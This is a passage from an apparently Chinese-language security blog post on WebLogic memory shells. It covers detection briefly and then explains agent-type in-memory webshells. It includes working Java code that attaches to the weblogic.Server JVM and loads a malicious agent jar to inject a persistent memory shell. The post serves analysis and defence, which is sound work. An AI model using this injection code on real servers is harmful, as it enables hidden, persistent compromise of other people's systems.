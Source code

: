 访问内存马
![](/img/in-post/weblogic-memshell-2/6.png)

servlet型与listener型内存马查杀与filter类似，这里就不再赘述了



## 0x02 Agent型内存马

这种类型的内存马利用的是java agent。java agent是一种能够在不影响正常编译的情况下，修改字节码的机制，可以把它理解成一种代码注入的方式。像RASP就是用这种方式进行插桩，达到hook的效果

冰蝎中已经集成了weblogic的内存马，下面就用它的代码做分析，因为不涉及其他web服务器，所以删减了一些部分

首先我们需要上传恶意agent的jar包到服务器上，然后在服务器执行这段代码。weblogic的jvm名字是`weblogic.Server`，遍历到这个jvm时，直接调用`loadAgent`加载我们的恶意jar包。`VirtualMachine`在`%JAVA_HOME%/lib/tools.jar`中，找不到类的可以手动加一下

```java
VirtualMachine vm = null;
List<VirtualMachineDescriptor> vmList = null;
String agentFile =  "D:\\EvilFilter.jar";

while (true) {
    try {
        vmList = VirtualMachine.list();
        if (vmList.size() <= 0)
            continue;
        for (VirtualMachineDescriptor vmd : vmList) {

            if (vmd.displayName().indexOf("weblogic.Server") >= 0) {
                vm = VirtualMachine.attach(vmd);

                System.out.println("[+]OK.i find a jvm.");
                Thread.sleep(1000);
                if (null != vm) {
                    vm.loadAgent(agentFile, "");
                    System.out.println("[+]memeShell is injected.");
                    vm.detach();
                    return;
                }
            }
        }
        Thread.sleep(3000);
    } catch (Exception e) {
        e.printStackTrace();
    }
}
```
